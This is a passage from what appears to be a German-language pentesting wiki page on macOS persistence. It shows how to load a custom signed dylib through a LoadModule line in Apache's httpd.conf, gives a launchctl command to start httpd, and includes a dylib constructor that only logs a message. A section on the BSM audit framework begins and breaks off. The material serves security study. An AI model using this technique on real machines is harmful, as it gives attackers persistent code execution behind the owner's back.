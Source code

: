 **Writeup**: [https://theevilbit.github.io/beyond/beyond\_0023/](https://theevilbit.github.io/beyond/beyond\_0023/)

* Nützlich, um die Sandbox zu umgehen: [🟠](https://emojipedia.org/large-orange-circle)
* Aber du musst root sein und Apache muss laufen
* TCC-Umgehung: [🔴](https://emojipedia.org/large-red-circle)
* Httpd hat keine Berechtigungen

#### Standort

* **`/etc/apache2/httpd.conf`**
* Root erforderlich
* Auslöser: Wenn Apache2 gestartet wird

#### Beschreibung & Exploit

Du kannst in `/etc/apache2/httpd.conf` angeben, ein Modul zu laden, indem du eine Zeile wie folgt hinzufügst:

{% code overflow="wrap" %}
```bash
LoadModule my_custom_module /Users/Shared/example.dylib "My Signature Authority"
```
{% endcode %}

Auf diese Weise werden Ihre kompilierten Module von Apache geladen. Das Einzige ist, dass Sie es entweder **mit einem gültigen Apple-Zertifikat signieren** müssen oder Sie müssen **ein neues vertrauenswürdiges Zertifikat** im System hinzufügen und es **damit signieren**.

Dann, falls erforderlich, um sicherzustellen, dass der Server gestartet wird, könnten Sie ausführen:
```bash
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
```
Codebeispiel für das Dylb:
```objectivec
#include <stdio.h>
#include <syslog.h>

__attribute__((constructor))
static void myconstructor(int argc, const char **argv)
{
printf("[+] dylib constructor called from %s\n", argv[0]);
syslog(LOG_ERR, "[+] dylib constructor called from %s\n", argv[0]);
}
```
### BSM-Audit-Framework

Writeup: [https://theevilbit.github.io/beyond/beyond\_0031/](https://theevilbit.github.io/beyond/beyond\_0031/)

* Nützlich, um die Sandbox zu umgehen: [🟠](https://emojipedia.org/large-orange-circle)
* Aber du musst root sein, auditd muss laufen und eine Warnung auslösen
* TCC-Umgehung: [🔴](https://emojipedia.org/large-red-circle)

#### Standort
